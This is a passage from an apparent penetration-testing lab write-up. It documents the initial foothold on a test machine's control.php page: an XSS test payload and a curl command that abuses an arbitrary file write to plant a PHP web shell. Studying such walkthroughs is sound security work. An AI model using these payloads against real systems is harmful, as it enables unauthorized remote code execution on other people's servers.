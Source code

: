 
---

## 3. Initial Foothold: RCE via Arbitrary File Write

The `/control.php` page discovered on Port 80 was identified as the primary attack vector.

### 3.1. Analyzing `control.php`
*   The page presented an input field for messages. Initial tests included attempting XSS:
    *   **Payload:** `<script>alert('XSS')</script>`
    *   **Result:** Successful XSS popup, indicating the input was being processed and rendered.
        *   ![IMAGE: Screenshot of the XSS popup on `control.php`.](imgs/img_10.png)
*   The source code of `control.php` (obtained later via LFI or RCE) revealed it used `fopen()` to write the `message` POST parameter to a file specified by the `file` POST parameter (defaulting to `control.txt`). This indicated a potential arbitrary file write vulnerability.

### 3.2. Exploiting Arbitrary File Write for RCE
A PHP web shell was uploaded using the file write vulnerability in `control.php`.

*   **Command (Kali Terminal):**
    ```bash
    curl -X POST http://192.168.13.129/control.php \
        -d "file=shell.php" \
        -d "message=<?php system(\$_GET['cmd']); ?>"
    ```